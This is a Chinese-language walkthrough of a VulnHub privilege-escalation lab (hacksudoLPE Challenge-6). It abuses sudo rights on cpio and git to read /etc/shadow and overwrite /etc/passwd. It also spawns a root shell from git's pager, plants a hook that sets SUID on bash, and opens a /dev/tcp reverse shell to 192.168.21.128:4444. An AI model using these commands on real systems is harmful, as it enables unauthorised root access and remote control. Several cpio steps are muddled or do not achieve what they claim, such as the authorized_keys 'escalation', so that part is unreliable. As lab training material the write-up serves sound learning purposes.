下载地址：https://download.vulnhub.com/hacksudo/hacksudoLPE.zip
Challenge-6 是 hacksudoLPE 系列中的第六个挑战，涉及 cpio 和 git 两个提权向量。用户 kendo 拥有 sudo 执行 cpio 和 git 的权限，利用手法参考 GTFOBins。
主机发现
使用 arp-scan 扫描局域网存活主机：
arp-scan -l
端口扫描
nmap 全端口扫描：
nmap --min-rate 10000 -p- 192.168.21.147
SSH 登录
SSH 连接靶机，查看用户 kendo：
查看 sudo 权限确认 cpio 和 git 可免密码执行：
ssh kendo@192.168.21.147
sudo -lChallenge-6 提供 cpio 和 git 两个提权入口。
cpio — 归档工具提权
cpio（GNU cpio）是一个文件归档工具。当用户拥有 sudo cpio 权限时，可以利用其读写任意文件，甚至执行任意命令。
方法一：利用 cpio 读取任意文件
通过 sudo cpio -i --no-absolute-filenames -d /etc/shadow 等类似手法读取敏感文件内容。实际上结合 cpio 的 -i（解压）和 --no-absolute-filenames 参数，配合管道传递压缩数据可实现文件读取。
一个常用的攻击手法是生成一个包含目标文件的 cpio 归档，然后通过 sudo cpio 提取到当前目录：
echo /etc/shadow | sudo cpio -o --no-absolute-filenames > /tmp/shadow.cpio
cpio -id < /tmp/shadow.cpio

方法二：利用 cpio 写入文件覆盖提权
先生成本地恶意 cpio 归档，然后通过 sudo cpio 解压覆盖 /etc/passwd 或 /etc/sudoers：
echo /etc/passwd | cpio -o --no-absolute-filenames > malicious.cpio
# 本机修改 passwd 后重新打包
sudo cpio -i --no-absolute-filenames -d < malicious.cpio
方法三：利用 cpio 执行命令
cpio 的 --to-stdout 配合其他命令可间接实现命令执行，但更直接的方式是利用 cpio 的 -R 选项结合 sudo 写入 crontab 或 SSH 公钥实现提权。
# 利用 cpio 追加公钥到 authorized_keys
echo /home/kendo/.ssh/authorized_keys | cpio -o --no-absolute-filenames > key.cpio
sudo cpio -i --no-absolute-filenames -d < key.cpio

更多 cpio 提权细节请参考 GTFOBins - cpio。
git — 版本控制提权
git 是广泛使用的版本控制工具。当用户拥有 sudo git 权限时，可利用多种方式提权。
方法一：git -p 分页器提权
git 的 -p 或 --paginate 选项会将输出传递到分页器（默认为 less）。通过 less 可以执行任意命令：
sudo git -p help
# 在 less 界面中输入：
!/bin/bash

方法二：git hook 提权
利用 sudo git 设置 core.hooksPath 指向恶意 hook 目录，然后在 hook 中写入 reverse shell 或提权命令：
mkdir -p /tmp/hooks
echo '#!/bin/bash' > /tmp/hooks/post-merge
echo 'chmod u+s /bin/bash' >> /tmp/hooks/post-merge
chmod +x /tmp/hooks/post-merge
sudo git -c core.hooksPath=/tmp/hooks merge

方法三：git -c core.gitProxy / core.sshCommand
通过 sudo git 配置 core.gitProxy 或 core.sshCommand 指向恶意脚本，触发 git 命令时即可执行任意代码。
sudo git -c core.gitProxy='/bin/bash -c "/bin/bash -i &>/dev/tcp/192.168.21.128/4444 0>&1"' ls-remote更多 git 提权细节请参考 GTFOBins - git。
至此，Challenge-6 的 cpio 和 git 两种提权方式已全部演示完毕。